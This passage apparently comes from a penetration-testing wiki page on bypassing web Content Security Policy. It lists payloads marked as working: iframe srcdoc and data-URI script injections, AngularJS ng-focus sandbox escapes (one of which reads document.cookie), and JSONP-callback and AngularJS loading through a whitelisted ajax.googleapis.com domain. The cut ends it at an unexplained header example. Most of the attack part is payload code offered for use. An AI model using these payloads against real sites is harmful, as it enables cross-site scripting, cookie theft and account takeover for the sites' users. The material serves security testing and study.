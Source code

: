Working payloads:

```markup
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>

* sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```

### AngularJS events

Depending on the specific policy, the CSP will block JavaScript events. However, AngularJS defines its own events that can be used instead. When inside an event, AngularJS defines a special `$event` object, which simply references the browser event object. You can use this object to perform a CSP bypass. On Chrome, there is a special property on the `$event/event` object called `path`. This property contains an array of objects that causes the event to be executed. The last property is always the `window` object, which we can use to perform a sandbox escape. By passing this array to the `orderBy` filter, we can enumerate the array and use the last element \(the `window` object\) to execute a global function, such as `alert()`. The following code demonstrates this:

```markup
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
```

### AngularJS and whitelisted domain

```text
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
```

If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable class. For more details visit this awesome \[git\]\([https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh\*t,-it's-CSP!%22](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22)\) repo.

Working payloads:

```text
"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
```

### Bypass CSP with dangling markup

Read [how here](dangling-markup-html-scriptless-injection.md).

### 'unsafe-inline'; img-src \*; via XSS

```text
default-src 'self' 'unsafe-inline'; img-src *;
```
